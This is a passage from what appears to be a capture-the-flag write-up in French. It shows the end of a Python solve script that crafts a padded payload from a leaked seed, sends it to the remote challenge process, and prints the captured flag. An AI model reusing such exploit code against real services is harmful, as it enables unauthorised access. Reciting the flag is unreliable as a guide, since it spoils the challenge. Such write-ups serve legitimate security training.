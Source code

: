 ```python
	for k in reverse:
		payload += bytes(chr(int('0x%s'%k,16)),'utf-8')
	return b'A'*(15-len(payload))+payload

seed = getseed()
seed_hex = hex(int(seed))

proc = getproc()
proc.recvuntil(b'Enter your name:')
proc.sendline(getpayload(seed_hex))
print(proc.recvuntil(b'flag:').decode())
print(proc.recv().decode().strip())
```

Résultat :

```bash
root@DESKTOP-HNQJECB: /c/lucky_writeup
➜   python3 lucky_solve.py REMOTE

Welcome, AAAAAAAAAAAA\x12V
If you're super lucky, you might get a flag! GLHF :D
Nice work! Here's the flag:
gigem{un1n1t14l1z3d_m3m0ry_15_r4nd0m_r1ght}
```

